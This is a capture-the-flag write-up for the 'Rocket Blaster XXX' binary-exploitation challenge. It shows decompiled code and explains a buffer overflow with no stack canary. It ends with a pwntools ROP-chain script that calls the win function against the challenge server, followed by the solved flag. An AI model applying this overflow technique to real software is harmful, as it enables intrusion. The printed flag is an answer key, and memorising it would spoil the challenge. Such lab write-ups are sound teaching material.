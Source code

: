 # Cyber Apocalypse 2024

## Rocket Blaster XXX

> Prepare for the ultimate showdown! Load your weapons, gear up for battle, and dive into the epic fray—let the fight commence!
> 
> Author: w3th4nds
> 
> [`pwn_rocket_blaster_xxx.zip`](pwn_rocket_blaster_xxx.zip)

Tags: _pwn_

## Solution
The challenge comes with a binary which we open with Ghidra. The main function is very short and we can see we definitely have an buffer overflow. Checking the security measurements in place with `checksec` tells us no `canary` is used (also we see this in our decompiled code), so we can `ROP`. 

```c
undefined8 main(void)
{
  undefined8 local_28;
  undefined8 local_20;
  undefined8 local_18;
  undefined8 local_10;
  
  banner();
  local_28 = 0;
  local_20 = 0;
  local_18 = 0;
  local_10 = 0;
  fflush(stdout);
  printf(
        "\nPrepare for trouble and make it double, or triple..\n\nYou need to place the ammo in the right place to load the Rocket Blaster XXX!\n\n>> "
        );
  fflush(stdout);
  read(0,&local_28,0x66);
  puts("\nPreparing beta testing..");
  return 0;
}
```

There is even a win function `fill_ammo` that prints the flag to us. The only thing to consider is, the function takes a few parameters we need to take care of. Since the binary is not a `Position Independent Executable (PIE)` we can just take the address of `fill_ammo` Ghidra shows us, since the base address stays fixed.

```c
void fill_ammo(long param_1,long param_2,long param_3)
{
  ssize_t sVar1;
  char local_d;
  int local_c;
  
  local_c = open("./flag.txt",0);
  if (local_c < 0) {
    perror("\nError opening flag.txt, please contact an Administrator.\n");
                    /* WARNING: Subroutine does not return */
    exit(1);
  }
  if (param_1 != 0xdeadbeef) {
    printf("%s[x] [-] [-]\n\n%sPlacement 1: %sInvalid!\n\nAborting..\n",&DAT_00402010,&DAT_00402008,
           &DAT_00402010);
                    /* WARNING: Subroutine does not return */
    exit(1);
  }
  if (param_2 != 0xdeadbabe) {
    printf(&DAT_004020c0,&DAT_004020b6,&DAT_00402010,&DAT_00402008,&DAT_00402010);
                    /* WARNING: Subroutine does not return */
    exit(2);
  }
  if (param_3 != 0xdead1337) {
    printf(&DAT_00402100,&DAT_004020b6,&DAT_00402010,&DAT_00402008,&DAT_00402010);
                    /* WARNING: Subroutine does not return */
    exit(3);
  }
  printf(&DAT_00402140,&DAT_004020b6);
  fflush(stdin);
  fflush(stdout);
  while( true ) {
    sVar1 = read(local_c,&local_d,1);
    if (sVar1 < 1) break;
    fputc((int)local_d,stdout);
  }
  close(local_c);
  fflush(stdin);
  fflush(stdout);
  return;
}
```

The following script does exactly this, initializes the parameters the function takes and calls `fill_ammo`. One minor thing to note is the extra `ret` at the beginning of the `rop-chain`. This is needed to keep the stack `16 byte aligned`. If this is not done the program will crash in this case as some of the following instructions are relying on correct memory alignment.

```python
from pwn import *

p = remote("94.237.54.161", 40777)

pop_rdi = 0x0040159f
pop_rsi = 0x0040159d
pop_rdx = 0x0040159b
ret     = 0x0040101a
offset  = 0x28

context.binary = b = ELF("./rocket_blaster_xxx")
payload = flat({
    offset: [
        ret,
        pop_rdi,
        0xdeadbeef,
        pop_rsi,
        0xdeadbabe,
        pop_rdx,
        0xdead1337,
        b.sym.fill_ammo
    ]
})
p.sendline(payload)
p.interactive()
```

Flag `HTB{b00m_b00m_r0ck3t_2_th3_m00n}`
